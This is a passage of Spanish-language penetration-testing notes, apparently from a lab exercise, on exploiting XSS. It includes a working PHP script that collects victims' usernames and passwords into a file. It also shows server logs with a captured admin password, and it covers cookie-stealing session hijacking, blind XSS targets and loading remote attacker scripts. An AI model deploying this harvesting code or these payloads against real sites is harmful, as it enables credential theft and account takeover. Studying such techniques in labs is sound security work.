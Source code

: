 Ahora creamos el index.php y lo servimos.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Donde la IP será la del servidor original.

Servimos el documento y hacemos que la víctima acceda a la URL con el XSS y haga login.

`sudo php -S 0.0.0.0:8000`

En nuestro servidor nos llegarán los parámetros.

`[Sun Oct 19 14:28:13 2025] 10.129.184.42:54014 Accepted`
`[Sun Oct 19 14:28:13 2025] 10.129.184.42:54014 [302]: GET /?`username=admin&password=p1zd0nt57341myp455&submit=Login
`[Sun Oct 19 14:28:13 2025] 10.129.184.42:54014 Closing`


## Session hijacking

Con la capacidad de ejecutar código JavaScript en el navegador de la víctima, podemos recopilar sus cookies y enviarlas a nuestro servidor para secuestrar su sesión iniciada mediante un ataque session hijacking (también conocido como robo de cookies).

### Blind XSS 

Una vulnerabilidad Blind XSS se produce cuando la vulnerabilidad se activa en una página a la que no tenemos acceso.

Las vulnerabilidades XSS ciegas suelen producirse en formularios a los que solo pueden acceder determinados usuarios (por ejemplo, los administradores). Algunos ejemplos posibles son:
  
- Formularios de contacto.
- Reseñas.
- Detalles del usuario.
- Tickets de soporte técnico.
- Encabezado HTTP User-Agent.

Para ello, podemos utilizar un payloadJavaScript que envíe una solicitud HTTP a nuestro servidor. Si se ejecuta el código JavaScript, obtendremos una respuesta en nuestro equipo y sabremos que la página es realmente vulnerable.


### Cargando un script de forma remota

En lugar de escribir el código directamente en la inyección podemos hacer que carge un archivo JS que tengamos servido desde nuestra máquina.
